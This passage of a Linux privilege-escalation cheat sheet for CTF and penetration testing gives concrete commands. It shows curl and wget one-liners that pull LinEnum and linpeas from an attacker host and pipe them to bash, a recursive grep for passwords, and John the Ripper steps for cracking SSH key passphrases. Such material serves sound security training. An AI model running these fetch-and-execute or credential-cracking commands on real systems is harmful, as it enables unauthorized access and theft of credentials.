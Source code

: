 root@kali:~test# cd LinEnum/
root@kali:~test/LinEnum# ls
root@kali:~test/LinEnum# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
And now on our remote Linux machine we can pull down the script and pipe it directly to Bash:

www-data@vulnerable:/var/www$ curl 10.10.10.10/LinEnum.sh | bash
And the enumeration script should run on the remote machine.

CTF Machine Tactics
Often it is easy to identify when a machine was created by the date / time of file edits. We can create a list of all the files with a modify time in that timeframe with the following command:

find -L /  -type f -newermt 2019-08-24 ! -newermt 2019-08-27 2>&1 > /tmp/foundfiles.txt
This has helped me to find interesting files on a few different CTF machines.

Recursively searching for passwords is also a handy technique:

grep -ri "passw" .
Wget Pipe a remote URL directory to Bash (linpeas):

wget -q -O - "http://10.10.10.10/linpeas.sh" | bash
Curl Pipe a remote URL directly to Bash (linpeas):

curl -sSk "http://10.10.10.10/linpeas.sh" | bash
Using SSH Keys
Often, we are provided with password protected SSH keys on CTF boxes. It it helpful to be able to quicky crack and add these to your private keys.

First we need to convert the ssh key using John:

kali@kali:~/.ssh$ /usr/share/john/ssh2john.py ./id_rsa > ./id_rsa_john
...
Next we will need to use that format to crack the password:

/usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt ./id_rsa_john
John should output a password for the private key.


References
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
http://www.hackingarticles.in/linux-privilege-escalation-using-exploiting-sudo-rights/
https://payatu.com/guide-linux-privilege-escalation/
http://www.hackingarticles.in/editing-etc-passwd-file-for-privilege-escalation/
http://www.0daysecurity.com/penetration-testing/enumeration.html
https://www.rebootuser.com/?p=1623#.V0W5Pbp95JP
https://www.doomedraven.com/2013/04/hacking-linux-part-i-privilege.html
https://securism.wordpress.com/oscp-notes-privilege-escalation-linux/
https://haiderm.com/linux-privilege-escalation-using-weak-nfs-permissions/
http://hackingandsecurity.blogspot.com/2016/06/exploiting-network-file-system-nfs.html
https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt https://hkh4cks.com/blog/2017/12/30/linux-enumeration-cheatsheet/
https://digi.ninja/blog/when_all_you_can_do_is_read.php
https://medium.com/@D00MFist/vulnhub-lin-security-1-d9749ea645e2
https://gtfobins.github.io/
https://github.com/rebootuser/LinEnum
